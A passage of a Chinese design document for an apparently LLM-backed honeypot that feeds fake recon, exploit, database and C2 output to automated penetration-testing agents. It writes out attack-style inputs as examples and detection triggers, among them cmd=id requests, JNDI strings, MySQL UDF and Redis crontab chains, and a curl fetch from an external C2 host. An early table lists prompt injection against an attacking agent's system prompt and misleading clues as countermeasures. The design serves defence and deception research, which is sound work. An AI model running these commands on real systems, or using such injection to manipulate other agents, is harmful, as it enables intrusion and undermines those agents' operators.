| 自动化工具链（nmap/hydra/sqlmap） | 创建复杂多层提权链，消耗时间 |
| 记忆/知识系统 | 返回矛盾信息，让历史经验失效 |
| 失败归因与策略调整 | 投放误导性线索，引导错误方向 |
| Prompt 基础设施 | Prompt injection 攻击其系统提示 |

### 19.2 对抗人类攻击者

人类攻击者通常具有以下特征：

| 人类特征 | 防御策略 |
|----------|----------|
| 凭直觉判断真实性 | 注入合理的系统噪声（cron日志、daemon重启） |
| 注意响应延迟 | 根据命令复杂度模拟真实延迟 |
| 检查"脏数据" | 投放看似真实的备份文件、日志片段 |
| 手动验证一致性 | 确保 OS/hostname/IP/路径 全局一致 |
| CTF 经验判断 | 制造合理的提权路径，不要太顺利 |

### 19.3 通用欺骗原则

无论面对何种攻击者，以下原则通用：

1. **一致性优先**: 所有输出必须与已展示的信息一致
2. **渐进式暴露**: 不要一次性展示所有信息，让攻击者逐步发现
3. **合理阻断**: 失败要有合理的理由（权限不足、网络不通），不要返回"这是蜜罐"
4. **噪声注入**: 真实系统有各种"脏数据"，蜜罐太干净反而可疑
5. **时间模拟**: 不同命令要有不同的响应延迟

## 20. 实现优先级

| 阶段 | 内容 | 工作量 | 价值 |
|------|------|--------|------|
| **P0** | Command Router + Consistency Guard | 2天 | 高 |
| **P1** | Memory Manager (L0/L1/L2) | 3天 | 高 |
| **P2** | 攻击者状态图谱 (Facts/Intents/Hints) | 3天 | 高 |
| **P3** | OODA 循环防御引擎 | 2天 | 高 |
| **P4** | L1-L4 挫败分析器 | 2天 | 高 |
| **P5** | Strategy Engine (反AI/反人类) | 3天 | 中 |
| **P6** | 欺骗效果追踪（信息素路径） | 2天 | 中 |
| **P7** | 门控欺骗策略网关 | 2天 | 中 |
| **P8** | 双 LLM 验证机制 | 2天 | 中 |
| **P9** | SSH 代理隧道拦截 | 3天 | 中 |
| **P10** | Cache + Prefetch + Delay | 2天 | 低 |

**总计: ~26天**

---

## 21. 安全工具输出引擎（Recon Tool Output Engine）

现有命令响应层只能覆盖基础 shell 行为，面对渗透 agent 的自动化侦察工具会很快露馅。安全工具输出引擎的目标不是在蜜罐本机真实执行 `nmap`、`fscan`、`dddd2`、`nuclei`、`ffuf`、`gobuster`、`sqlmap`，而是把这些工具的命令行参数解析成“攻击者想观察什么”，再从 `WorldGraph`、`ServiceRegistry`、`ReachabilityMatrix` 和会话记忆中生成一致、可复现、可延展的工具输出。

### 21.1 设计目标

- 实时响应常见侦察命令，避免 `command not found` 或空输出暴露环境。
- 输出必须来自平台统一世界模型，端口、服务版本、主机名、网段、漏洞线索不能互相矛盾。
- 支持 agent 常用的批量扫描、指纹识别、目录爆破、漏洞模板扫描和数据库自动化探测。
- 不执行真实扫描、不访问真实外网、不启动真实漏洞验证，只模拟工具的“观测结果”。
- 扫描命令本身可以触发动态拓扑扩展，使“扫描发现资产”成为拓扑生成入口，而不是死胡同之后才补救。

### 21.2 统一数据模型

```go
type ReconTool string

const (
    ReconToolNmap    ReconTool = "nmap"
    ReconToolFscan   ReconTool = "fscan"
    ReconToolDddd2   ReconTool = "dddd2"
    ReconToolNuclei  ReconTool = "nuclei"
    ReconToolGobuster ReconTool = "gobuster"
    ReconToolFfuf    ReconTool = "ffuf"
    ReconToolSqlmap  ReconTool = "sqlmap"
)

type ReconRequest struct {
    Tool        ReconTool
    RawCommand  string
    Targets     []ReconTarget
    Ports       []int
    Flags       map[string]string
    Wordlist    string
    TemplateSet string
    SessionID   string
    CurrentHost string
}

type ReconResult struct {
    Tool        ReconTool
    Lines       []string
    Discoveries []Discovery
    Mutations   []GraphMutation
    Delay       time.Duration
    Confidence  float64
}

type Discovery struct {
    Kind       string // host, port, service, vuln_hint, directory, credential_hint
    IP         string
    Port       int
    Service    string
    Version    string
    Severity   string
    Evidence   string
    VisibleIf  []string
}
```

`ReconRequest` 只表达意图，不直接绑定某个模板。解析器从原始命令中提取目标、端口、工具模式和爆破词表；渲染器再根据当前会话可见拓扑生成输出。这样同一个 `192.168.56.10:22` 在 `nmap -sV`、`fscan`、`dddd2` 中会呈现不同格式，但底层服务事实一致。

### 21.3 工具覆盖策略

| 工具 | 必须支持的模式 | 输出来源 | 欺骗重点 |
|---|---|---|---|
| `nmap` | `-sS`、`-sT`、`-sV`、`-O`、`-A`、`-p`、CIDR 扫描 | `ReachabilityMatrix` + `ServiceRegistry` | 主机存活、端口状态、版本、OS 指纹一致 |
| `fscan` | `-h`、`-p`、`-np`、`-nobr`、弱口令提示 | `WorldGraph` + 凭据线索库 | 内网主机发现、服务探测、弱口令诱导 |
| `dddd2` | `-t`、`-Pn`、`-npoc`、指纹识别 | 指纹库 + 漏洞线索 | 产品识别、PoC 命中但不直给终局 |
| `nuclei` | `-u`、`-l`、`-t`、`-severity` | 漏洞画像 + 模板映射 | 少量可信命中，制造继续验证动机 |
| `gobuster` | `dir`、`dns`、`vhost`、`-w`、`-u` | Web 资产画像 + 脏数据索引 | 目录发现、备份文件、后台路径 |
| `ffuf` | `-u`、`-w`、`-H`、`-mc`、`-fs` | Web 资产画像 + 过滤规则 | 状态码、长度、词表命中合理 |
| `sqlmap` | `-u`、`-r`、`--dbs`、`--tables`、`--dump` | 数据库状态机 + Web 漏洞画像 | 阶段性确认注入，dump 受限或污染 |

### 21.4 处理流程



关键点是 `Topology Planner Fast Path` 必须在工具输出前运行。比如攻击者执行 `fscan -h 10.1.5.0/24` 时，系统不能先返回“无主机”，再后台生成拓扑；而是应当立即创建 `10.1.5.0/24` 的阴影子网，并根据当前 foothold 状态决定哪些主机可见、哪些显示为超时或 filtered。

### 21.5 输出模板原则

`nmap -sV 192.168.56.10,192.168.56.50` 示例应满足：

```text
Nmap scan report for jump01.corp.local (192.168.56.10)
Host is up (0.0041s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3

Nmap scan report for dc01.corp.local (192.168.56.50)
Host is up (0.0068s latency).
PORT    STATE SERVICE      VERSION
53/tcp  open  domain       Microsoft DNS
88/tcp  open  kerberos-sec Microsoft Windows Kerberos
135/tcp open  msrpc        Microsoft Windows RPC
389/tcp open  ldap         Microsoft Windows Active Directory LDAP
445/tcp open  microsoft-ds Windows Server 2019 Standard 17763
```

这里的版本、主机名、域名、端口都必须来自同一个服务画像。后续 `smbclient -L //192.168.56.50`、`ldapsearch`、`nuclei` 看到的身份信息必须继续沿用 `dc01.corp.local` 和 Windows Server 2019 这组事实。

### 21.6 一致性与安全约束

- 禁止把真实本机网络扫描结果拼进输出。
- 禁止因为攻击者请求某个 CVE 就直接返回可执行 shell 或真实 payload 成功。
- 对不存在或未解锁的目标返回 `filtered`、`timeout`、`no route to host`、`connection reset` 等阶段性结果，而不是全盘否定。
- 同一会话内扫描结果必须稳定；跨会话可以通过种子生成轻微差异。
- 工具输出中的发现必须写入会话事件，供后续 LLM planner、拓扑 UI 和报告复盘使用。

---

## 22. 漏洞利用阶段性响应（Exploit Stage Responder）

渗透 agent 不会停留在端口扫描阶段，它会使用 CVE PoC、框架模块、`curl` 构造请求、脚本化 exploit 继续推进。漏洞利用阶段性响应的核心目标是让 agent 感觉“这里确实有利用面，但需要更多验证、凭据、路径或跳板”，而不是直接拿下目标或立刻识破假环境。

### 22.1 阶段模型

```go
type ExploitStage string

const (
    ExploitProbe       ExploitStage = "probe"
    ExploitCheck       ExploitStage = "check"
    ExploitExploit     ExploitStage = "exploit"
    ExploitPostExploit ExploitStage = "post_exploit"
)

type ExploitAttempt struct {
    RawInput    string
    Transport   string // http, ssh, mysql, postgres, redis, smb
    TargetIP    string
    TargetPort  int
    Product     string
    CVE         string
    Stage       ExploitStage
    Indicators  []string
    SessionID   string
}

type ExploitResponse struct {
    Status        string // vulnerable, maybe_vulnerable, blocked, partial, failed
    Output        string
    NewEvidence   []Evidence
    NewStates     []string
    SuggestedNext []string
    Delay         time.Duration
}
```

阶段判断来自多个信号：URL 路径、HTTP 参数、PoC 文件名、命令关键字、CVE 编号、工具输出格式和历史上下文。比如 `curl http://x/api/vuln?cmd=id` 是 exploit 阶段，`python CVE-2021-xxx.py --check` 是 check 阶段，`nuclei -id` 多数是 probe/check 阶段。

### 22.2 响应策略

| 阶段 | 允许输出 | 禁止输出 | 目标 |
|---|---|---|---|
| probe | banner、版本、错误页、指纹 | 直接 shell、敏感数据完整 dump | 建立资产可信度 |
| check | `target appears vulnerable`、弱证据、需认证 | 稳定 RCE 成功 | 引导继续验证 |
| exploit | partial success、权限不足、超时、WAF、只读回显 | 真实命令执行、真实文件写入 | 拖延并转入 PPF |
| post_exploit | 假 foothold、受限 shell、低权限 token | 域控/flag/生产凭据终局 | 触发后续拓扑规划 |

### 22.3 漏洞画像

每个服务画像可以挂载若干“假漏洞面”：

```yaml
services:
  - host: app-node-01
    ip: 10.1.5.10
    port: 8080
    product: Jenkins
    version: "2.346.1"
    vuln_profiles:
      - id: jenkins_script_console_auth_required
        cve: ""
        stage_policy: auth_required
        evidence:
          - "/script redirects to login"
          - "X-Jenkins: 2.346.1"
      - id: jenkins_cli_remoting_legacy
        cve: "CVE-decoy-jenkins-cli"
        stage_policy: partial_then_block
```

漏洞画像不等于真实漏洞复现。它只描述 agent 能观察到的线索、误报、阶段性阻断原因和可触发的假立足点。所有画像必须经过 `Consistency Guard` 校验，避免 Linux 主机返回 Windows-only 漏洞，或 nginx 页面暴露 Tomcat 管理路径。

### 22.4 PoC/HTTP 处理

HTTP responder 需要从通用页面响应升级为“请求意图响应”：

- `GET /`、`/login`、`/actuator` 返回产品画像页面。
- `POST /api/...` 根据参数判断是否为 exploit 尝试。
- `cmd=id`、`cmd=whoami`、`${jndi:`、`/cgi-bin/`、`/wp-` 等高风险特征进入 Exploit Stage Responder。
- check 类请求返回弱成功，例如版本存在、接口存在、需要认证、只读 token。
- exploit 类请求返回阶段性阻断，例如 `Permission denied`、`read-only filesystem`、`request timed out after 10s`、`egress policy denied`。
- 当攻击者多次尝试且路径合理时，可以发放 `fake_foothold` 状态，但该状态只能解锁新的模拟资产，不能直接给终局目标。

### 22.5 PPF 联动

PPF（Partial Progress Friction）不应只在 SSH 登录或 jump01 上出现，也应覆盖漏洞利用：



这样 agent 会觉得自己“推进了一点”，同时平台获得时间在后台生成下一段拓扑、脏数据和服务画像。

---

## 23. 完整数据库利用链（Database Exploitation Chain）

数据库是 Web 渗透 agent 最常见的提权与横向入口之一。现有基础查询不足以骗过自动化 agent，需要把 MySQL、PostgreSQL、Redis 等数据库做成状态机：既能回答常见枚举查询，又能在 UDF、文件写入、权限探测阶段给出可信阻断。

### 23.1 MySQL 状态机



### 23.2 MySQL 查询覆盖

必须覆盖以下查询族：

| 查询族 | 示例 | 期望响应 |
|---|---|---|
| 基础枚举 | `SELECT VERSION()`、`SELECT USER()`、`SHOW DATABASES` | 版本、用户、业务库列表稳定 |
| 变量探测 | `SELECT @@plugin_dir`、`SHOW VARIABLES LIKE '%secure%'` | 返回合理路径和限制 |
| 权限探测 | `SHOW GRANTS`、`SELECT FILE_PRIV` | 显示低权限或受限 DBA 线索 |
| 文件读取 | `LOAD_FILE('/etc/passwd')` | 可返回裁剪后的假文件或 NULL |
| 文件写入 | `INTO OUTFILE`、`INTO DUMPFILE` | 权限拒绝或目录限制 |
| UDF 链 | `CREATE FUNCTION sys_exec`、`SELECT sys_exec('id')` | 阶段性错误，不给真实执行 |
| 数据枚举 | `information_schema`、`SHOW TABLES`、`SELECT * LIMIT` | 返回污染后的业务数据 |

示例：

```text
mysql> SELECT @@plugin_dir;
+-------------------------+
| @@plugin_dir            |
+-------------------------+
| /usr/lib/mysql/plugin/  |
+-------------------------+

mysql> SELECT 'x' INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
ERROR 1 (HY000): Can't create/write to file '/usr/lib/mysql/plugin/udf.so' (Errcode: 13 - Permission denied)
```

### 23.3 PostgreSQL 状态机

PostgreSQL 需要覆盖：

- `SELECT version()`、`current_user`、`current_database()`。
- `pg_database`、`pg_tables`、`information_schema` 枚举。
- `COPY ... TO/FROM PROGRAM` 返回超级用户限制。
- `CREATE EXTENSION` 返回权限不足或扩展不存在。
- `lo_import`、`lo_export` 返回路径权限问题。
- `pg_read_file` 只对白名单假文件返回裁剪内容。

### 23.4 Redis 与缓存服务

Redis responder 需要支持：

- `INFO`、`CONFIG GET dir`、`CONFIG GET dbfilename`。
- `KEYS *`、`SCAN`、`GET`、`HGETALL`。
- `CONFIG SET dir`、`SAVE`、写 crontab/authorized_keys 的典型利用链。
- 对写入型命令返回 `ERR Changing directory: Permission denied`、`READONLY`、`NOAUTH`、`protected-mode` 等可信阻断。

### 23.5 数据一致性

数据库返回的数据必须与脏数据投放系统共享同一份 `SecretGraph`：

- `.env` 中出现的 `DB_HOST=db-node-01` 必须能解析到对应拓扑节点。
- MySQL 里出现的用户、库名、表名要与 Web 配置、日志、备份文件一致。
- 凭据可以“半有效”：允许登录低价值服务、解锁假 foothold，但不能直接获得终局。
- dump 数据要带业务噪声、旧密码、脱敏字段和时间戳，避免过于干净。

---

## 24. 脏数据投放系统（Dirty Data Seeding）

真实主机不会是干净的。渗透 agent 进入 shell 后会立即查看 `/etc/shadow`、`~/.bash_history`、配置文件、日志、备份、SSH key、Kubernetes kubeconfig、CI/CD token。脏数据投放系统负责给 VFS、命令输出、数据库和 Web 目录提供统一的“可信噪声”。

### 24.1 数据类型

| 类型 | 路径/入口 | 欺骗价值 |
|---|---|---|
| 系统身份 | `/etc/passwd`、`/etc/group`、`/etc/hostname`、`/etc/os-release` | 建立 OS 可信度 |
| 受限敏感文件 | `/etc/shadow`、`/root/.ssh/id_rsa` | 返回权限拒绝或裁剪内容 |
| Shell 历史 | `~/.bash_history`、`~/.mysql_history`、`~/.psql_history` | 暴露下一跳、误导命令习惯 |
| 应用配置 | `.env`、`config.php`、`application.yml`、`settings.py` | 投放半有效凭据 |
| 运维痕迹 | `/var/log/auth.log`、`/var/log/nginx/access.log`、`/opt/deploy/` | 证明主机被真实使用 |
| 备份文件 | `.bak`、`.old`、`.tar.gz`、`backup.sql` | 引导目录枚举和数据挖掘 |
| 云原生痕迹 | `kubeconfig`、`serviceaccount/token`、Helm values | 引导到 kubectl/GitLab/Jenkins 分支 |
| 域环境痕迹 | `krb5.conf`、`smb.conf`、LDAP 配置 | 引导到 dc01/域控链路 |

### 24.2 统一 SecretGraph

```go
type SecretNode struct {
    ID          string
    Kind        string // password, token, key, connection_string, hostname
    Value       string
    Strength    string // invalid, stale, low_priv, pivot_only
    AppearsIn   []ArtifactRef
    Unlocks     []string
    ExpiresAt   *time.Time
}

type ArtifactRef struct {
    HostID string
    Path   string
    Line   int
    Format string
}
```

所有凭据都要有强度分级。默认不生成“一步通关”的高权限凭据，而是生成 `stale`、`low_priv`、`pivot_only` 类型。比如 `.env` 里出现的 MySQL 密码可以登录只读库；`.bash_history` 里出现的 `ssh jump01` 可以触发 jump01 假立足点；GitLab token 可以访问项目列表但无法读生产 secret。

### 24.3 VFS 生成规则

- 文件时间戳要分布在合理区间，不能全部是当前时间。
- 文件 owner/group 要与 `/etc/passwd` 中用户一致。
- 路径存在性要与 `find`、`ls`、`cat`、`grep`、`stat`、`file` 输出一致。
- 大文件不要完整生成，可按需分页或摘要渲染。
- `/etc/shadow` 默认返回权限拒绝；如果会话被标记为 root，也只返回裁剪后的假 hash，不能让 agent 真实破解得到终局密码。
- `grep -R pass /`、`find / -name "*.conf"` 必须有节流和噪声，模拟真实系统的慢、乱、权限拒绝。

### 24.4 示例脏数据链

```text
/var/www/app/.env
DB_HOST=192.168.56.20
DB_USER=app_reader
DB_PASSWORD=Summer2023_backup!
REDIS_HOST=192.168.56.21

/home/deploy/.bash_history
ssh jump01
mysql -h 192.168.56.20 -u app_reader -p
scp backup.sql jump01:/tmp/

/var/log/auth.log
Accepted password for deploy from 192.168.97.14 port 51244 ssh2
Failed password for root from 192.168.56.10 port 42110 ssh2
```

这条链不会让 agent 直接拿下域控，但会自然引导它从入口机进入 `192.168.56.0/24`、发现 jump01、尝试数据库、再触发动态拓扑规划。

### 24.5 投放时机

- 会话创建时生成基础 OS、用户、日志和应用配置。
- 首次访问某个目录时懒加载对应文件树。
- 发现新拓扑节点时，为该节点生成匹配的本地痕迹。
- LLM planner 新增业务分支后，异步生成对应的配置、日志、备份和凭据线索。
- PPF 进入拖延态时，优先投放能支撑下一跳的低权限凭据和历史命令。

---

## 25. 动态拓扑扫描响应（Scan-Time Topology Expansion）

动态拓扑不能只在“死胡同检测”后扩展。真正的内网幻境需要在扫描动作发生的当下生成和暴露资产，使 agent 感觉自己通过侦察发现了网络，而不是平台事后补了一张表。

### 25.1 核心原则

- 扫描命令是拓扑规划输入，不是普通命令输出。
- 先扩展世界模型，再渲染扫描结果。
- 可见性由 `ReachabilityMatrix` 决定：未拿到跳板前可以看到少量 filtered/timeout，拿到假 foothold 后看到更多 open 服务。
- 目标 IP 或 CIDR 来自 agent 明确意图时，优先生成对应网段，而不是把目标硬映射到固定 `192.168.56.0/24`。

### 25.2 ReachabilityMatrix

```go
type ReachabilityRule struct {
    FromHost      string
    ToCIDR        string
    ViaHost       string
    RequiredState string
    Visibility    string // hidden, filtered, partial, open
}

type ReachabilityResult struct {
    Visible     bool
    PortState   string // open, closed, filtered, timeout
    Reason      string
    LatencyHint time.Duration
}
```

比如入口机可以直接看到 `192.168.56.10 jump01`，但 `192.168.56.50 dc01` 只有在 `jump01_fake_foothold` 后从 filtered 变成 open。攻击者请求 `10.1.5.0/24` 时，应生成该子网挂在 jump01 后面；未解锁 jump01 时返回少量 filtered，解锁后返回 app/db/backup 链。

### 25.3 扫描触发器

| 命令 | 拓扑动作 | 输出动作 |
|---|---|---|
| `ip route`、`route -n` | 暴露已知网段入口 | 显示双网卡和内网路由 |
| `ping 10.1.5.20` | 若为私网 IP，生成目标所在 /24 | 根据可达性返回 latency/timeout |
| `nc -vz 10.1.5.20 22` | 生成目标主机服务画像 | 返回 open/filtered/timeout |
| `nmap 10.1.5.0/24` | 生成 shadow subnet | 返回若干主机和端口 |
| `fscan -h 172.16.56.50` | 生成精确目标主机和周边资产 | 返回目标相关服务，不改写到其他网段 |
| `traceroute 10.1.5.20` | 生成跳板路径 | 显示 gateway/jump01/target 路径 |

### 25.4 Graph Mutator 校验

动态生成必须经过校验：

- 只允许 RFC1918 私网、文档测试网或配置允许的靶场网段。
- 不允许重复 IP、重复 host id 或冲突 hostname。
- 新分支必须有父边，例如 `jump01 -> 10.1.5.0/24`。
- 终局目标必须保持 gated，不能因为一次扫描直接可完全控制。
- LLM planner 只能提交 `TopologyPlan`，不能直接写图。
- 所有新增节点必须带 `visible_if`、`reachable_via`、`compromise_mode`。

### 25.5 实时输出示例

攻击者未拿到 jump01 前：

```text
$ nmap -sV 10.1.5.0/24
Nmap scan report for 10.1.5.10
Host is up.
PORT     STATE    SERVICE
22/tcp   filtered ssh
8080/tcp filtered http-proxy

Nmap scan report for 10.1.5.20
Host is up.
PORT     STATE    SERVICE
3306/tcp filtered mysql
```

拿到 `jump01_fake_foothold` 后：

```text
$ nmap -sV 10.1.5.0/24
Nmap scan report for finance-app-01.internal (10.1.5.10)
Host is up (0.0072s latency).
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

Nmap scan report for finance-db-01.internal (10.1.5.20)
Host is up (0.0094s latency).
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.7.38
```

同一个网段在不同状态下不是“有/无”的切换，而是从 filtered/partial 逐步变成 open，这更符合真实横向移动体验。

---

## 26. C2 框架模拟（C2 Framework Simulation）

高级渗透 agent 可能使用 Sliver、Metasploit、Cobalt Strike 风格的会话管理或后渗透命令。平台不需要实现真实 C2，也不能允许真实 implant 通信，但需要模拟 C2 客户端常见交互，让 agent 不会因为 `sliver-client`、`msfconsole` 立即失败而识破环境。

### 26.1 模拟范围

| 框架 | 覆盖命令 | 行为 |
|---|---|---|
| Sliver | `sliver-client`、`profiles`、`listeners`、`generate`、`sessions`、`use`、`shell`、`ls`、`download` | 模拟 profile/listener/session，但不建立真实回连 |
| Metasploit | `msfconsole`、`use`、`set RHOSTS`、`check`、`run`、`sessions` | 模拟模块 check 和 partial session |
| 通用 implant | `beacon`、`agent`、`callback`、`download`、`execute` | 返回受限 shell、网络策略阻断 |

### 26.2 C2 会话模型

```go
type C2Session struct {
    ID            string
    Framework     string
    ImplantName   string
    TargetHostID  string
    User          string
    Integrity     string // low, medium, system-decoy
    State         string // staged, callback_pending, active_decoy, lost
    AllowedOps    []string
    CreatedAt     time.Time
}
```

C2 session 是平台内部的假对象，只用于维持交互上下文。它可以解锁“后渗透枚举输出”，但不能启动真实 listener、不能开放端口、不能执行真实 payload。

### 26.3 Sliver 行为

典型交互：

```text
sliver > profiles new --mtls 192.168.56.10 --os linux --arch amd64 corp-linux
[*] Saved new implant profile corp-linux

sliver > mtls
[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > sessions
 ID         Name        Transport   Remote Address     Hostname
 7c2a1f     TENSE-PINE  mtls        192.168.56.10      jump01

sliver (TENSE-PINE) > shell
[*] Started remote shell with pid 1832
jump01$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy)
```

该 shell 必须进入受控 `ShellSessionState`，输出来自 jump01 的 VFS 和拓扑视角。危险动作返回策略阻断：

```text
jump01$ iptables -L
iptables v1.8.7: Permission denied (you must be root)

jump01$ curl http://external-c2/payload
curl: (7) Failed to connect: egress policy denied by proxy
```

### 26.4 Metasploit 行为

`check` 阶段可以返回 `The target appears to be vulnerable`；`run` 阶段根据画像返回：

- `Exploit completed, but no session was created`。
- `Command shell session opened`，但 session 是 `active_decoy`。
- `Meterpreter session opened`，但只支持 `sysinfo`、`getuid`、`pwd`、`ls`、`cat`、`shell` 等受控命令。

所有 `upload`、`execute`、`portfwd`、`route add`、`socks_proxy` 必须经过 SSH/Network guard，不能形成真实转发。

### 26.5 安全边界

- 不监听真实公网或内网端口。
- 不生成真实恶意 payload。
- 不执行上传文件。
- 不连接攻击者 C2。
- 所有“session opened”都是平台内部状态，并写入审计事件。
- C2 模拟优先服务于拖延、观测和拓扑扩展，不追求完整框架复刻。

---

## 27. 渗透全链路欺骗场景与验收（End-to-End Deception Scenarios）

新增模块必须通过端到端场景验证，而不是只验证单条命令。验收目标是：面对 Cairn、aide、LingXi 这类自动化渗透 agent，平台能持续给出一致的可探索环境，让 agent 认为自己在真实内网中推进，同时无法获得真实终局。

### 27.1 场景 DSL

```yaml
scenario: finance_lateral_movement
entry:
  ssh: 192.168.97.2:2222
  host: staging-web-01
goals:
  - "gain control of 172.16.56.50"
initial_segments:
  - cidr: 192.168.56.0/24
    visible_from: staging-web-01
required_branches:
  - trigger: "scan 172.16.56.0/24 or 172.16.56.50"
    create:
      cidr: 172.16.56.0/24
      via: jump01
      target_host: 172.16.56.50
      theme: domain_or_finance
acceptance:
  min_session_minutes: 20
  must_observe:
    - recon_tool_output
    - dirty_data_access
    - pivot_attempt
    - database_enumeration
  must_not_observe:
    - real_network_scan
    - direct_terminal_success
    - inconsistent_target_mapping
```

### 27.2 核心验收场景

| 场景 | 覆盖模块 | 验收标准 |
|---|---|---|
| 入口机基础侦察 | §21、§24、§25 | `ip addr`、`ip route`、`find`、`grep`、`nmap` 输出互相一致 |
| jump01 横向移动 | §22、§24、§25 | 通过凭据/PPF 解锁 jump01 假立足点，dc01 从 filtered 变 open |
| 目标网段动态生成 | §21、§25 | agent 提到 `172.16.56.50` 时生成 `172.16.56.0/24`，不再硬映射到 `192.168.56.50` |
| 财务系统探索 | §21、§23、§24 | finance app/db/backup 链完整，SQL 查询和文件线索一致 |
| CVE PoC 验证 | §22、§26 | check 有弱成功，exploit 有阶段性阻断或假 session |
| C2 后渗透 | §24、§25、§26 | Sliver/Metasploit 能进入受控 decoy session，不能真实转发 |

### 27.3 自动化测试矩阵

每个场景至少包含四类测试：

- 命令级 golden test：固定输入命令，断言输出包含关键字段且不包含终局成功。
- 状态级 graph test：断言新增 segment、host、edge、visible_if、required_state 正确。
- 一致性 test：同一 host 在 shell、nmap、数据库、Web、拓扑 UI 中身份一致。
- agent 回放 test：导入真实 agent 会话日志，检查平台是否在关键节点给出合理响应。

示例断言：

```text
Input: fscan -h 172.16.56.50
Expect:
  - topology contains segment 172.16.56.0/24
  - topology contains host 172.16.56.50
  - edge jump01 -> 172.16.56.0/24 exists
  - output does not mention 192.168.56.50 as replacement target
  - if jump01_fake_foothold is absent, service state is filtered or timeout
```

### 27.4 质量指标

| 指标 | 目标 |
|---|---|
| 首次明显破绽时间 | > 20 分钟 |
| 侦察工具有效响应率 | > 90% |
| 命令历史完整率 | > 98% |
| 拓扑一致性错误 | 0 个 P0/P1 |
| 终局直达率 | 0% |
| PPF 触发后 planner 完成时间 | < 5 秒 |
| agent 继续探索率 | > 80% |

### 27.5 更新后的落地优先级

| 优先级 | 模块 | 说明 |
|---|---|---|
| P0 | §24 脏数据投放系统 | agent 进入 shell 后最先检查，最容易暴露 |
| P0 | §21 安全工具输出引擎 | 自动化侦察必经路径，必须先兜住 |
| P1 | §25 动态拓扑扫描响应 | 解决目标网段和横向链路不真实的问题 |
| P1 | §23 数据库利用链 | Web 渗透和提权高频路径 |
| P2 | §22 漏洞利用阶段性响应 | 让 CVE PoC 不再落入通用页面或失控 LLM |
| P3 | §26 C2 框架模拟 | 高阶 agent 使用，ROI 较低但对长期对抗重要 |
| P0-P3 | §27 端到端场景验收 | 每个模块完成后都必须用真实 agent 回放验证 |

这些模块补齐后，平台架构才从“能聊天的假 shell”升级为“可持续对抗渗透 agent 的模拟内网”。核心判断标准不是单次命令像不像，而是 agent 在连续侦察、利用、横向、后渗透过程中，看到的世界是否始终自洽、可探索、但不可真正打穿。
